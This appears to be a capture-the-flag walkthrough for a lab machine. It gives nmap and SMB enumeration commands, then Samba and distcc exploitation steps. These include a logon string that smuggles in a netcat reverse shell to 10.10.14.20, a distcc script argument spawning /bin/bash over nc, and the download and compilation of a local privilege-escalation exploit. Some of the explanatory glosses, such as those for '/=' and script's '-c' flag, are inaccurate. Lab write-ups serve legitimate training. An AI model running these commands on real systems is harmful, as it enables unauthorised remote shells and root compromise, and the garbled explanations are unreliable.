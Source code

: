 #   CMD 

```
nmap -sC -sV 10.10.10.3
```
-sC: run default nmap scripts <br>
-sV: detect service version

```
ls /usr/share/nmap/scripts/ftp*
```
/usr/share/nmap/scripts/ftp-anon.nse<br>
/usr/share/nmap/scripts/ftp-proftpd-backdoor.nse<br>
/usr/share/nmap/scripts/ftp-bounce.nse <br>
/usr/share/nmap/scripts/ftp-syst.nse<br>
/usr/share/nmap/scripts/ftp-brute.nse
/usr/share/nmap/scripts/ftp-libopie.nse <br>
/usr/share/nmap/scripts/ftp-vuln-cve2010-4221.nse
<h5>/usr/share/nmap/scripts/ftp-vsftpd-backdoor.nse</h5>

```
nmap --script ftp-vsftpd-backdoor -p 21 10.10.10.3
```
```
ls /usr/share/nmap/scripts/ssh*
```
```
smbclient -L 10.10.10.3
```
```
smbmap -H 10.10.10.3
```

#   Exploitation #1: Samba

```
nc -nlvp 4444
```
```
smbclient //10.10.10.3/tmp
```
```
logon "/=`nohup nc -nv 10.10.14.20 4444 -e /bin/sh`"
```

logon   ---->>>> is likely the name of a function or command that is being called. <br>
"/="    ---->>>> is not a valid shell syntax and it's not clear what the intention of this string is. <br>
nohup   ---->>>>  is a command that allows a process to continue running in the background even if the user logs out or the terminal is closed. <br>
-nc     ---->>>>  is the netcat command, which is a utility for reading and writing data across network connections. <br>
-nv     ---->>>> are options for nc, which instruct it to use verbose output and to not use DNS for resolving the target IP address. <br>
-e      ---->>>>  is an option for nc that specifies the command to execute after the connection is established. <br>
/bin/sh ---->>>>  is the command that will be executed on the target machine after the reverse shell connection is established. It launches a shell session, allowing the attacker to interact with the target machine's command line. <br>
    
```
script -qc /bin/bash /dev/null 
```
"script" ---->>>>  is a command-line utility that creates a typescript of a terminal session.<br>
"-q" ---->>>>  flag tells "script" to run in quiet mode, which suppresses extra messages from being printed on the console.<br>
"c" ---->>>>  flag tells "script" to capture the output to the specified file, in this case, "/dev/null", which is a special file that discards any data written to it.<br>
"/bin/bash" ---->>>>  is the shell interpreter that executes the commands in the script.<br>
"/dev/null" ---->>>>  is a special file that discards any data written to it.<br>

#   Exploitation #2: Distcc

```
nc -nlvp 4444
```
```
nmap -p 3632 10.10.10.3 --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='nc -nv 10.10.14.20 4444 -e /bin/bash'"
```
```
searchsploit -m 8572.c
```
```
python -m SimpleHTTPServer 9005
```
```
wget http://10.10.14.20:5555/8572.c
```
```
gcc 8572.c -o 8572  
```
```
ps -aux | grep devd
```
```
nc -nlvp 4445
```
```
./8572 2661
```
